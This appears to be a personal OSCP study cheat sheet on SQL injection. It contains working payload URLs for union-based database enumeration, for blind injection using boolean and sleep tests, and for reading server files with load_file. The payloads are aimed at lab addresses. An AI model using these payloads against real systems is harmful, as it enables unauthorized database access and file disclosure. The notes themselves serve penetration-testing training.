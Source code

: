 # oscp-notes

## SQL Injection

### Enumerating the Database (using union statements)
```
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,table_name,6%20from%20information_schema.tables
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,@@version,6
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,5,6
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,column_name,6%20from%20information_schema.columns%20where%20table_name=%27users%27
```

### Blind SQL Injection
```
http://10.x.x.x/comment.php?id=782%20and%201=1 (and 1=1)
http://10.x.x.x/comment.php?id=782-sleep(5) (-sleep(5))
```

### Load_File Function
```
http://10.11.14.19/comment.php?id=782%20union%20all%20select%201,2,3,4,load_file(“c:/windows/system32/drivers/etc/hosts”),6
```
